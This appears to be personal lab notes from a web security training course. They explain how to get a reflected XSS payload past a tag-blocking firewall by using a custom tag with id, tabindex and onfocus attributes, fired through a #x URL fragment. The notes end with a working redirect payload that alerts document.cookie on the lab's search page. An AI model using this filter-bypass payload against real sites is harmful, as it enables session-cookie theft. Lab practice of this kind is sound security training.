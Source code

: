 On this lab, the only tag that works is custom-tag, the other are captured for the firewall.
Here the way to bypass this is using the next payload.

The id=x is in order to give a "name" to the tag. Then the tabindex=1 is because we need give it the attribute of tab. 
![[Pasted image 20250825215946.png]]

Finally we need to use ``` #x ```, this trigger that the browser look for the id = x on the web, which contain the payload.

```
<script> location = 'https://YOUR-LAB-ID.web-security-academy.net/?search=%3Cxss+id%3Dx+onfocus%3Dalert%28document.cookie%29%20tabindex=1%3E#x'; </script>
```